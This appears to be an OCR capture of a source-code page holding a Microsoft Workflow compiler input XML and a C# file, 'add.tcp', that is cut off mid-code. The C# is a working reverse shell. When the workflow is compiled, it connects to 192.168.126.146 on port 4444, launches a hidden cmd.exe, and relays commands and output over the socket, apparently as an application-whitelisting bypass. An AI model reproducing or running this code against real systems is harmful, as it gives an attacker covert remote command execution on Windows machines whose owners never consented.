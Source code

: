 ```xml
<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<d2p1:checkTypes>false</d2p1:checkTypes>
<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
<d2p1:compilerOptions i:nil="true" />
<d2p1:generateCCU>false</d2p1:generateCCU>
<d2p1:languageToUse>CSharp</d2p1:languageToUse>
<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
<d2p1:mtInfo i:nil="true" />
<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
</parameters>
</CompilerInput>
```

**add.tcp**
```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Net;
using System.Net.Sockets;
using System.Workflow.Activities;

public class Program : SequentialWorkflowActivity

{
static StreamWriter streamWriter;
public Program()
{
using(TcpClient client = new TcpClient("192.168.126.146", 4444))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);
StringBuilder strInput = new StringBuilder();
Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();
while(true)
{
strInput.Append(rdr.ReadLine());
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}
private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
```